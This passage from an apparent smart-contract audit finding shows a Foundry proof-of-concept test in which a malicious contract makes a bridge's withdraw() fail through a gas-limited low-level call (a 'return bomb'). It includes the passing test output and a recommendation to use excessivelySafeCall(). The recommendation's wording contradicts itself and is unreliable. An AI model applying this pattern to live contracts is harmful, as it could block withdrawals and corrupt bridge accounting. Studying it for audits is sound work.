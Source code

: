 ```solidity
    // Imagine this is the OmniPortal executing the withdraw transaction
    function _exec(address to, bytes calldata xcalldata) public returns (bool) {
        (bool success, bytes memory returnData) = address(to).call{gas: 80_000}(xcalldata);
    }
}

contract Bridge {
    uint256 public lastTransferred;
    bool public transferFailed;

    function withdraw(address to, uint256 amount) public {
        lastTransferred = amount;

        (bool success,) = to.call{value: amount}("");

        if (!success) transferFailed = true;
    }
}

contract POC is Test {
    function test_withdraw_revert() public {
        OmniPortal portal = new OmniPortal();
        MaliciousContract maliciousContract = new MaliciousContract();
        Bridge bridge = new Bridge();

        vm.deal(address(bridge), 100e18);

        portal._exec(
            address(bridge),
            abi.encodeWithSelector(bridge.withdraw.selector, address(maliciousContract), 1e18)
        );

        // The Bridge contract state was NOT updated due to withdraw() failing altogether
        assertEq(bridge.lastTransferred(), 0);
        assertEq(address(maliciousContract).balance, 0);
    }
}
```

If we run the test with `forge test --match-test test_withdraw_revert` we get the following output:
```sh
Ran 1 test for test/ReturnBombExample.sol:POC
[PASS] test_withdraw_revert() (gas: 369622)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.62ms (2.24ms CPU time)

Ran 1 test suite in 161.43ms (6.62ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Recommendation
Just use `excessivelySafeCall()` instead of a low-level `call()` in the OmniBridgeNative `withdraw()` function to ensure users can force it to fail and thus leaving the contract with a stale value for `l1BridgeBalance`.
